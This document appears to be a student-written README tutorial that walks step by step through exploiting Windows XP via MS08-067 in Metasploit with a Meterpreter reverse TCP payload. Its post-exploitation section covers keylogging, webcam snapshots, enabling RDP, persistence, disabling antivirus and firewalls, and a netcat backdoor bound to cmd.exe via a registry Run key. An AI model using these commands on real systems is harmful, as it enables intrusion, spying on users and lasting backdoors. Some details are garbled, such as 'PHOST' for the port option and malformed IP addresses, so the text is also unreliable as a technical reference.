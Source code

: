 
###Metasploit Instructions
##Introduction
Metasploit is a software tool which uses exploits to test the vulnerability of a computer or server and uses the exploits to gain access to things that had restricted access. This helps computer users understand how defenseless their computer might be and how important it is that they fix it. It also allows the users to understand the importance of security. The needed knowledge and skills that come with Metasploit is the ability to use nmap and exploit scanners because the Metasploit doesn’t actually scan for vulnerabilities; it can only exploit. Without the nmap or exploit scanners you cannot actually use Metasploit because you will not know what exploit to use. One should also be able to use and understand command line in linux or Windows. The necessary tools for Metasploit are a vulnerability scanner of some sort to find out what exploits you need and another virtual machine or a computer that belongs to the Metasploit user is also necessary since it is illegal to use Metasploit to exploit and gain access to computers that they are not allowed to access. One must download and install Metasploit.  The first steps that I will cover in this are how to use the Exploit database and find the exploit that is needed, I will move to how to use the exploit and how to execute said exploit and lastly I will cover how to make use of said exploit by either metepreter or command line.
##Exploiting
If you were to find your exploit from a using an exploit scanners you can skip this step. Otherwise use nmap to find out what type of OS the system you are trying to exploit uses, and see if it is unpatched version of the OS.  Once you have found out what OS it is you should look up what exploits can be used for this system’s vulnerability. For example say you are using windows XP on your computer and port 445 is open.  You could google different exploits that are used for windows XP service that are available in Metasploit.  We find that there is an exploit called MS08-67 for windows. If you were using an exploit scanner it would tell you vulnerability on that system and you wouldn’t need to google what it is.  Instead one could find out much about the different exploits from info provided by the scanner. Once you find out what the name of the exploit is you now can use Metasploit. Firstly you want to use the Metasploit console and enter the line `use exploit/ `and because we are using windows we will use `use exploit/windows/`
![alt text](https://github.com/willthegreatest/instructions/blob/master/images/show.PNG)

After this we need to know what kind of exploit this is. Fortunately we already know what kind of exploit this is from the google search or the exploit scan. Once we get this down we can now use tab to list the number of exploits that you that windows has. But since we already know which exploit we are going to use we use the command `use exploit/windows/smb/ms08_067_netapi`.
After getting to the exploit we need there are multiple things we must set up before we can use the exploit against the vulnerable computer. To do this we use the show options command in Metasploit which will give us three options for the MS08-67 exploit, but we will only be using the first two.  The first option is RHOST which is the address of the host. We use the command `set RHOST 127.0.0.0.1`with the correct IP address of the user you are using. The second option is PHOST with this we must use an open port that the target computer has open. We set this to port 445 because that is the port that is used for this type of exploit. One would have figured this out from previous steps such as the nmapping or exploit scan. 
![alt text](https://github.com/willthegreatest/instructions/blob/master/images/optionswithset.PNG)

##Payload
The next step in the process is to set the payload. With this we use the show payload command which shows every type of payload we can use for this exploit. For this one we will use the metepreter reverse tcp . This allows us to use the metepreter function of Metasploit which has many different tools and built in scripts. So to do this we the command `set  payload windows/metepreter/reverse-tcp`. This step sets the payload to activate we you use the run command. Before you can run it you must set the properties for the payload. For this we use show payload options and one can see that there is two different options. The first option is LHOST which we want to set to your ip address. To change this we use the `set LHOST 127.0.0.1.`. The second option is the port you want to use to connect to the exploited machine.  To change this we use `set LPORT 6666`.
![alt text](https://github.com/willthegreatest/instructions/blob/master/images/showpayload.PNG)

After this is all done and it done correctly we should be able to run the exploit against the vulnerable. With the command `exploit`.

![alt text](https://github.com/willthegreatest/instructions/blob/master/images/exploit.PNG)

##Post Exploitation
If everything is working correctly the exploit should work and the payload should drop. We should have access to the metepreter. At this point there a few things we can and should do. First thing we want to do is check the system we are running on. There are multiple things you can do now with this now which I will split into multiple sections.
###Gaining Information
The first section will be about getting information about the user from metepreter.  We can run the sysinfo command to get the system information of the computer that you are running. This will be extremely helpful if you were unaware of how patched the XP machine is. The next thing we can do is use a keylogger to get passwords or personal information about the user. We do this by using the command `keyscan` into the metepreter. With this it will scan for keystrokes and when we want to see what the user has typed in we use the `key_dump` to see what the user has typed in. Another thing you can do on the machine is see the user screen. This is done through the command `getgui –u username –p password`. This will enable rdp if it has been disabled and will allow you to get access to the screen of the computer. The last thing I will include in getting information about the user is the webcam command. To see if the computer has any webcams we use the command `webcam_list` and if there is one we can use the command `webcam_snap` which will take a picture of the person using the computer.
###Mataining Access
The next section I will talk about is how to maintain access to the computer. The next thing you should do is use the metepreter persistence which will allow you to have access to the system under certain situations.  To do this we use the command `run persistence –X –i  5 –p 6665 –r  127.0.0.1`. The –X will connect you to the computer whenever you have metepreter open and the system is booted up. The –i is the intervals that it will try to connect to the host. The –p is for the port that you will be connecting to and the –r is used for your ip address. This will allow you connect the infected machine even after the user has shut down when the user turns it back on instead of kicking you off for good. Let also say we want to make sure we don’t get kicked off the machine by an antivirus, we could run the command `killav` which can disable many anti viruses. We can also use the command `run getcountermeasures` to see if we can disable firewalls of the infected computer. The last thing you might want to do is install a backdoor to get to the computer if the persistence command fails. This can be done by first uploading netcat to the remote system using the command `upload /usr/share/windows-binaries/nc.exe C:\windows\system32` which will put the netcat executable onto the vulnable machine. The next thing we do is to allow it to run at every time the computer starts up so we use the command
`reg setval -k HKLM\software\microsoft\windows\currentversion\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 455 -e cmd.exe`. This will make the netcat start everytime with port 455 open.  The last thing we need to is make sure the firewall will enable the netcat connection to go through ( which could be avoided if you disabled the firewall with getcountermeasures). We do this by using the command `netsh firewall add portopening TCP 455 "Service Firewall" ENABLE ALL` which will open up the port to be accessed through the firewall. With the backdoor installed you no longer need to use metesploit to log into the vulnerable machine. Instead you need only to use `nc -v 127.0.0.01 455` in your commandline to connect to the machine that you have infected.
##Conclusion
While this is only one of the exploits that you can use to gain access to a computer, the purpose of the exploit is many of things taught in these instructions can be substituted for other exploits or scripts. So even though it doesn’t cover all of the types of instruction, many approaches can be learned from just one example of an exploit. I choose the MS08-67 exploit because it was easy and allows for remote access while some exploits do not. Hopefully these instructions will help you understand Metasploit better and how to be safer and more proficient with computers.
